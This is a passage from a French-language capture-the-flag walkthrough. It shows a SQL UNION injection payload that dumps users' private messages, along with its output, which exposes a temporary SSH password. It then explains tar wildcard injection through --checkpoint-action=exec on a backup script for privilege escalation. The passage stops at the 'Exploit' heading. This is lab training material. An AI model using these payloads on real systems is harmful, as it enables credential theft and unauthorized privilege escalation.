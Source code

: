 ```sql
5 UNION SELECT "a",group_concat(message_content,":",user_from,":",user_to),"c","d" FROM messages-- -

Hello! An automated system has detected your SSH password is too weak and needs to 
be changed. You have been generated a new temporary password. 
Your new password is: @b_ENXkGYUCAv3zJ:1:3
```

Donc ce que je comprends ici, c’est que l’utilisateur system envoi ce message à l’utilisateur jake (id:3) en lui envoyant son nouveau mot de passe pour se connecter en SSH à la machine.

## SSH | Jake

### **Flag 2 | Jake**

![Untitled 8](https://user-images.githubusercontent.com/68467919/207140750-78a017b4-6e5e-47f4-9a1c-9469c7cab8e7.png)

### Énumération

![Untitled 9](https://user-images.githubusercontent.com/68467919/207140771-e46e59d7-f62c-4dee-98fc-0f15a7104e14.png)

Nous pouvons donc exécuter un script sans utiliser de mot de passe sous l’utilisateur michael.

![Untitled 10](https://user-images.githubusercontent.com/68467919/207140809-eff8b7d3-44a1-40fc-baa4-2c0611515f85.png)

### [backup.sh](http://backup.sh) | Wildcard Injection

```sql
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

Tar va créer une archive de n’importe quel fichier , n’importe où dû au wildcard.

Pour pouvoir s’élever en privilège, nous pouvons se fier à cet article : 

[Exploiting Wildcard for Privilege Escalation - Hacking Articles](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

Pour faire simple : 

```sql
--checkpoint[=NUMBER] :
Affiche un message de progression tous les NUMBER (par défaut 10).

--checkpoint-action=ACTION :
Exécute ACTION à chaque point de contrôle, dans notre cas exec.

exec=command : Exécute la commande donnée.
```

### Exploit
